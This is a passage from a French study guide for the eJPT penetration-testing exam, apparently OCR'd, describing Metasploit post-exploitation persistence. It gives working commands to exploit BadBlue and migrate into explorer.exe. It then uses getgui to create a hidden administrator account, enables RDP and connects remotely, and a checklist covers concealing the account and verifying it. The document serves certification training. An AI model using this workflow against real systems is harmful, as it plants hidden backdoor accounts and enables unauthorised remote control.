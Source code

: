 ### One-liner après exploitation
```bash
# Migration + User + RDP en une séquence
ps -S explorer.exe && migrate <pid> && run getgui -e -u alice -p hack_123321
```

### Workflow optimisé examen
```bash
# 1. Exploitation
use exploit/windows/http/badblue_passthru; set RHOSTS target; set LHOST attacker; exploit

# 2. Stabilisation + Persistence
ps -S explorer.exe; migrate <pid>; run getgui -e -u alice -p hack_123321

# 3. Test immédiat
# Nouveau terminal Kali :
xfreerdp /u:alice /p:hack_123321 /v:target /cert-ignore
```

---

## 📋 11. Checklist de persistence utilisateur

### ✅ Validation étape par étape
- [ ] **Exploitation initiale** réussie
- [ ] **Privilèges Admin** confirmés (`getuid`)
- [ ] **Migration** vers processus stable effectuée
- [ ] **Utilisateur créé** avec `getgui` ou manuellement
- [ ] **RDP activé** et configuré
- [ ] **Utilisateur masqué** de l'écran de connexion
- [ ] **Groupes admin** assignés
- [ ] **Test connexion RDP** réussi
- [ ] **Accès GUI** complet fonctionnel

### 📝 Informations à documenter
- **Nom d'utilisateur** créé
- **Mot de passe** associé
- **Port RDP** utilisé (défaut 3389)
- **Méthode de masquage** employée
- **Commande de nettoyage** si nécessaire

### 🔍 Vérifications post-création
```bash
# Dans Meterpreter
execute -f net -a "user alice"         # Info utilisateur
execute -f net -a "localgroup Administrators"  # Vérifier groupe
reg queryval -k "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\SpecialAccounts\\UserList" -v alice  # Vérifier masquage
```

**🎯 Conseil final eJPT :** La persistence par utilisateur caché offre un **accès GUI complet** très pratique pour l'administration post-exploitation. Technique très stable et discrète si bien implémentée. Toujours migrer vers explorer.exe avant getgui pour assurer la stabilité !